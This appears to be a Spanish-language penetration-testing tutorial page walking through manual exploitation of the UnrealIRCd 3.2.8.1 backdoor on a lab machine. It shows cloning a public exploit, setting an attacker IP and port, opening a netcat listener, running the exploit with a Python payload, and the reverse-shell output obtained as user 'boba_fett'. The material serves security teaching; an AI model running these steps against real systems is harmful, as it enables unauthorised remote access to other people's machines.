 # Explotacion manual de vulnerabilidades Host

Lo que vamos hacer aqui es explotar vulnerabilidades de forma manual, sin utilizar herramientas automatizadas como por ejemplo `metasploit` si no que vamos a investigar herramientas que puedan explotar estas vulnerabilidades de forma manual.

Vamos a empezar mirando el reporte que obtuvimos de `nmap` anteriormente y en concreto vamos a intentar explotar la vulnerabilidad que nos marca del puerto `6667` que se utiliza para comunicarse con otras personas como si fuera un `chat` pero en este caso esta `troyanizada` y para obtener mas informacion nos muestra el link.

<figure><img src="../../../.gitbook/assets/image (46) (1).png" alt=""><figcaption></figcaption></figure>

URL = [Pagina de referencia](http://seclists.org/fulldisclosure/2010/Jun/277)

<figure><img src="../../../.gitbook/assets/image (47) (1).png" alt=""><figcaption></figcaption></figure>

Por lo que vemos nos explica que esa version de aplicacion, contiene una `backdoor` (Puerta trasera) por lo que podemos aprovechar eso para obtener acceso a la maquina.

Si investigamos mas sobre esa vulnerabilidad `UnrealIRCd 3.2.8.1`, buscando un exploit del mismo, podremos encontrar un repositorio en `GitHub` sobre esto.

URL = [Exploit UnrealIRCd 3.2.8.1 GitHub](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor)

Nos descargaremos el repositorio de la siguiente forma:

```shell
git clone https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor.git
cd UnrealIRCd-3.2.8.1-Backdoor/
```

Si investigamos mas a fondo como funciona el codigo por dentro, haciendo lo siguiente:

```shell
nano exploit.py
```

Podremos ver el codigo por dentro, vemos que nos va a pedir una serie de parametros para poder utilziarlos en el exploit, tambien vemos que realiza una consexion utilizando una serie de sockets con lo que le hayamos indicado para que asi pueda crear ese `backdoor`.

> ¿Que es un `exploit`?

Un `exploit` normalmente es una porcion de codigo fuente que puede estar escrita en practicamente cualquier lenguaje de programacion (`Python, C++, etc...`), lo que va hacer es tratar de aprovechar una vulnerabilidad y ofrecernos un beneficio (Conexion reversa a dicha maquina, dumpeo de informacion de credenciales, escalada de privilegios, etc...).

> ¿Que es un `payload`?

El `payload` es concretamente lo que se va a ejecutar el codigo que nosotros vamos a injectar una vez que ya hemos aprovechado ese fallo de seguridad para realizar la accion que nos interese.

Antes de ejecutarlo tendremos que poner nuestra IP y el puerto que queramos dentro del exploit:

<figure><img src="../../../.gitbook/assets/image (48) (1).png" alt=""><figcaption></figcaption></figure>

Una vez echo esto lo guardamos y ahora si lo iriamos a ejecutar.

Por lo que podremos ejeuctar el exploit de la siguiente forma:

Primero estaremos a la escucha desde el puerto que le hayamos indicado antes en el script del exploit.

```shell
nc -lvnp <PORT>
```

Despues estando a la escucha, ejecutaremos el `exploit` para que nos de la shell a la escucha en la que estamos.

```shell
sudo chmod 777 exploit.py
./exploit.py 192.168.16.133 6667 -payload python
```

Info:

```
Exploit sent successfully!
```

Y en la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.16.128] from (UNKNOWN) [192.168.16.133] 35988
boba_fett@ubuntu:/opt/unrealircd/Unreal3.2$ whoami
whoami
boba_fett
boba_fett@ubuntu:/opt/unrealircd/Unreal3.2$ 
```

Por lo que vemos funciono todo correctamente y ya habremos obtenido una shell con la maquina victima `Linux`.

